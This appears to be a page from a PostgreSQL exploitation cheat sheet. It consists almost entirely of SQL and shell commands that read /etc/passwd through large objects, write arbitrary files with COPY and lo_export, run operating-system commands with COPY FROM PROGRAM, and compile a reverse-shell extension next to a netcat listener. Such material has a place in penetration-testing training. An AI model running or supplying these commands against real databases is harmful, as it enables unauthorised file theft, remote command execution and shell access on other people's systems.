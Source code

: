 Code: sql

```sql
SELECT lo_import('/etc/passwd');
SELECT lo_get(16513);
SELECT data FROM pg_largeobject WHERE loid=16513 AND pageno=0;
echo 726f6f743<SNIP> | xxd -r -p
```

#### Writing with COPY

Code: sql

```sql
CREATE TABLE tmp (t TEXT);
INSERT INTO tmp VALUES ('To hack, or not to hack, that is the question');
COPY tmp TO '/tmp/proof.txt';
DROP TABLE tmp;
```

#### Writing with Large Objects

Code: sql

```sql
split -b 2048 /etc/passwd
xxd -ps -c 99999999999 xaa
SELECT lo_create(31337);
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (31337, 0, DECODE('726f6f74<SNIP>6269','HEX'));
SELECT lo_export(31337, '/tmp/passwd');
SELECT lo_unlink(31337);
```

## Command Execution

#### RCE with COPY

Code: sql

```sql
CREATE TABLE tmp(t TEXT);
COPY tmp FROM PROGRAM 'id';
SELECT * FROM tmp;
DROP TABLE tmp;
```

#### RCE with Extensions

Code: bash

```bash
sudo apt install postgresql-server-dev-13
gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_rev_shell.so pg_rev_shell.c
nc -nvlp 443
```
